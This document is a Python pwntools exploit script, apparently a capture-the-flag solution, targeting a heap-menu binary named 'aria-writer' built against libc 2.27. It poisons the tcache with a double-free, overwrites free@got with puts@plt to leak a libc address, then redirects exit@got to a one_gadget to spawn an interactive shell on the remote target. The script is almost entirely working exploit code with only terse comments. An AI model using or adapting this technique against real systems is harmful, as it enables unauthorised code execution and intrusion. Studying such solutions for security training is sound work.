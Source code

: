 ```python
    binary = "./aria-writer"
    libc_file = "./libc-2.27.so"

    elf = ELF(binary)
    glo = elf.symbols["global"]
    puts_plt = elf.plt["puts"]
    free_got = elf.got["free"]
    setbuf_got = elf.got["setvbuf"]
    exit_got = elf.got["exit"]

    libc = ELF(libc_file)
    setbuf_libc = libc.symbols["setvbuf"]
    one_gadget = 0x4f322

    print(hex(glo))
    print(hex(puts_plt))

    s = remote(target, port)
    s.recvuntil(b"> ")
    s.sendline(b"/bin/sh")

    # top of tcache(0x20) = global
    size = 0x20
    mwrite(s, size)
    free(s)
    free(s)
    mwrite(s, size, p64(glo))
    mwrite(s, size)

    # top of tcache(0x30) = free@got
    size = 0x30
    mwrite(s, size)
    free(s)
    free(s)
    mwrite(s, size, p64(free_got))
    mwrite(s, size)

    # top of tcache(0x40) = exit@got
    size = 0x40
    mwrite(s, size)
    free(s)
    free(s)
    mwrite(s, size, p64(exit_got))
    mwrite(s, size)

    # *free@got = puts@plt
    mwrite(s, 0x30, p64(puts_plt))

    # *global = setbuf@got
    mwrite(s, 0x20, p64(setbuf_got))

    # libc leak
    free(s)
    s.recvline()
    libc_addr = pad_u64(s.recvline().rstrip()) - setbuf_libc
    print(hex(libc_addr))

    mwrite(s, 0x40, p64(libc_addr + one_gadget))
    _select(s, b"unko")

    s.interactive()
```
